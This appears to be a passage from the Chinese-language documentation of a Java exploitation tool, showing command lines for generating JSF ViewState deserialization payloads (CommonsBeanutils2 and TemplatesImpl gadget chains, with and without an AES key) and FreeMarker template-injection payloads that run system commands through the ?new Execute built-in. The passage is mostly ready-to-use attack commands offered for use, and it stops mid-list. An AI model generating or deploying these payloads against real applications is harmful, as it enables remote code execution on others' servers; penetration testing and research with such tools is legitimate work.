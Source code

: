 ## 6.JSF 反序列化(YsoAttack)

描述：JSF的Payload生成逻辑是序列化-->GZIP压缩-->AES加密-->Base64加密。JSF2.2之前的规范不要求使用加密机制，所以会没有AES加密这一层。

工具：如果是JSF2.2之前不需要加密密钥的情况则需要在`-jsf-key`​后写"none"值，如果是有加密密钥的情况则需要在`-jsf-key`​之后写密钥。最后传输数据时候记得url编码。

```bash
-m YsoAttack -g FindClassByBomb -a "java.lang.String|23" -jsf-key "none"
```

使用JSF加密密钥的方式：

```bash
-m YsoAttack -g CommonsBeanutils2 -a "Templateslmpl:auto_cmd:calc" -jsf-key "kPH+bIxk5D2deZiIxcaaaA=="
```

## 7.SSTI 模板注入(​SSTIAttack)

SSTIAttack模块主要记录下Java中各种模板注入的Payload：

* [X] Freemarker
* [ ] Velocity
* [ ] Pebble

### 额外的参数

SSTIAttack模块支持以下额外的参数：

* writeToFile：将生成Payload结果写入到文件中

#### writeToFile

描述：将生成Payload结果写入到文件中

工具：

```java
-m SSTIAttack -g FreeMarkerExecute -a "calc" -writeToFile "/tmp/freemarker.txt"
```

### FreeMarker

关于FreeMarker的模板注入可以学习escape-w师傅的[freemarker模板注入](https://www.cnblogs.com/escape-w/p/17326592.html)文章，写的很好

FreeMarker语法：简单记一记

* assign定义变量：`<#assign applicationContext=springMacroRequestContext.webApplicationContext>`​
* 输出变量：`${applicationContext}`​

#### ?new 利用

##### Execute 命令执行

描述：FreeMarker的 ?new 内建函数freemarker.template.utility.Execute底层是调用Runtime.exec进行命令执行

限制：FreeMarker的new_builtin_class_resolver配置限制内建函数对类的访问(从 2.3.17版开始)，该配置有三种参数：
